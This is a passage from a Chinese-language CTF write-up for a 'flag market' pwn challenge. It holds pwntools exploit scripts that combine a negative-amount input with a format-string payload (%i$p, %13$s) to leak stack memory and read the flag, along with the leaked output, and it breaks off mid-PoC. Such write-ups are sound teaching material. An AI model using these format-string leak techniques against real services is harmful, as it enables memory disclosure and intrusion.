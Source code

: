 写一个测试脚本：

```python
from pwn import *

context(arch="amd64",os="linux",log_level="debug")

# p = remote("127.0.0.1",9999)

p = process("./chall")

p.sendafter(b'2.exit',b'1')

p.sendafter(b'how much you want to pay?',b'-1'.ljust(8,b'\x00'))

padding = 0x100

payload = b'A'*padding

for i in range(1,50):
    payload += f'%{i}$p-'.encode()

p.sendlineafter(b'opened user.log, please report:',payload)

p.sendlineafter(b'2.exit',b'1')

p.sendafter(b'how much you want to pay?',b'2'.ljust(8,b'\x00') + p64(0x404050))

p.interactive()
```

可以看到，运行之后可以看到（关键部分）：

```bash
0x2-(nil)-0x7ffd2c748851-0x1999999999999999-(nil)-0xc000-0x402b00000-0xffffffff00000010-0x27c212a0-0x2f0000000000c000-0x7f0067616c66-0x32-0x404050-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-0x7ffd2c748990-0x8988df52354d0500-0x7ffd2c748950-0x7e84d7c2a1ca-0x7ffd2c748900-0x7ffd2c7489d8-0x100400040-0x40139b-0x7ffd2c7489d8-0x9a34b258d05c60e2-0x1-(nil)-0x403e18-0x7e84d800c000-0x9a34b258d37c60e2-0x98c7453481fe60e2-0x7ffd00000000-(nil)-(nil)-0x1-0x7ffd2c7489d0-0x8988df52354d0500-0x7ffd2c7489b0-0x7e84d7c2a28b-0x7ffd2c7489e8-0x403e18-0x7ffd2c7489e8-0x40139b-welcome to flag market!
```

很明显，这连续的`(nil)`就是`my_memset(&v15, 0LL, 64LL);`的杰作。

因此，我们可以推断，第14个位置就是`[rbp-50h]`

那么，我们可以通过和`read`输入的配合，实现：

[![img](/img/flag-market/3622178-20251023214316077-107934784.png)](https://img2024.cnblogs.com/blog/3622178/202510/3622178-20251023214316077-107934784.png)

本阶段Poc:

```python
from pwn import *

context(arch="amd64",os="linux",log_level="debug")

# p = remote("127.0.0.1",9999)

p = process("./chall")

p.sendafter(b'2.exit',b'1')

p.sendafter(b'how much you want to pay?',b'-1'.ljust(8,b'\x00'))

padding = 0x100

payload = b'A'*padding + b'%13$s#'
```